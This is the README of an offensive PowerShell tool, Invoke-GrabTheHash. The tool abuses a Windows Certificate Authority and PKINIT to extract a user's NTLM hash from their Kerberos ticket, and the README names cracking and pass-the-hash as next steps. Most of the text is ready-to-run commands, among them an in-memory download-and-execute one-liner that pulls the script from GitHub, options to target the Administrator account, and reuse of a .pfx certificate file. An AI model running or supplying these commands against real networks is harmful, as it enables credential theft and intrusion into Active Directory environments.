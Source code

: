 # Invoke-GrabTheHash
Requests a certificate from a Windows Certificate Authority (CA) for the Current Session User's TGT, uses PKINIT to obtain a TGT for the same user, then performs the UnPAC-the-Hash technique to extract the user's NTLM hash.

This approach can be valuable in situations where an account's TGT has been compromised. Gaining access to the account hash allows for further actions such as cracking it to retrieve the user plain-text password, pass-the-hash attacks, or acquiring a new TGT if the existing one has expired.

### Run as follows
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-GrabTheHash/main/Invoke-GrabTheHash.ps1')
```
```
Invoke-GrabTheHash
```

### Specify a target Domain
```
Invoke-GrabTheHash -Domain domain.local
```

### Enumerate for Certificate Templates
```
Invoke-GrabTheHash -CertTemplates
```

### Specify a Certificate Template to use
By default, the "User" template is used to request a certificate
```
Invoke-GrabTheHash -TemplateName User
```

### Specify the CA Name
```
Invoke-GrabTheHash -CAName "CA01.domain.local\domain-CA01-CA"
```

### Specify the Account Client Name
This must correspond to the TGT Client Name in your current session
```
Invoke-GrabTheHash -CN Administrator
```

### Provide a .pfx file
You can also reuse a previously obtained .pfx to get the user hash

Make sure you provide the full path to the .pfx file, as well as the CN and Domain information
```
Invoke-GrabTheHash -PFX C:\Users\Senna\Downloads\Administrator.pfx -Domain ferrari.local -CN Administrator
```

### Example Output
![image](https://github.com/Leo4j/Invoke-GrabTheHash/assets/61951374/fcb77053-ebf9-4132-bbaf-8a576a6d08b1)

![image](https://github.com/Leo4j/Invoke-GrabTheHash/assets/61951374/2e887daf-865a-4813-9930-f32815ee653b)

### Credits

Rubeus

https://github.com/GhostPack/Rubeus
